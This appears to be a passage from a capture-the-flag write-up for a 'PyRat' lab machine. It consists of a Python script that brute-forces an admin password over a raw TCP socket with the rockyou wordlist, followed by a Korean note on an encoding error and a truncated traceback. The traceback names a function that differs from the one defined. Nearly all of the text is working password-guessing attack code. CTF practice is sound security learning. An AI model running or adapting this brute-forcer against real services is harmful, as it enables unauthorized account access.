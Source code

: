```py
import socket

# Configuration
import socket
import time

pyrat_IP = "10.10.247.143"
pyrat_PORT = 8000
wordlist = "/usr/share/wordlists/rockyou.txt"

def send_socket(ip: str, port: int, password: str) -> bool:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)  # timeout ekledik
        s.connect((ip, port))
        s.sendall(b'admin\n')

        resp = s.recv(1024).decode(errors="ignore")

        if "Password:" in resp:
            s.sendall(password.encode() + b"\n")
            resp = s.recv(1024).decode(errors="ignore")

            if "success" in resp.lower() or "admin" in resp.lower():
                print(f"[+] Found! admin:{password} -> {resp.strip()}")
                return True
            else:
                print(f"[-] Failed: {password}")
    except Exception as e:
        print(f"[!] Connection error for password '{password}': {e}")
    finally:
        s.close()
    return False

def brut_pass():
    with open(wordlist, "r", encoding="latin-1", errors="ignore") as file:
        for line in file:
            password = line.strip()
            if send_socket(pyrat_IP, pyrat_PORT, password):
                break
            time.sleep(0.1)
if __name__ == "__main__":
    brut_pass()
```

# 에러 발생 ! -> rockyou.txt 는 일반적으로 latin-1 인코딩 해야함 -> 현재 utf-8 이므로 latin-1 로 수정하기

Traceback (most recent call last):
File "/root/password.py", line 53, in <module>
fuzz_passwords()
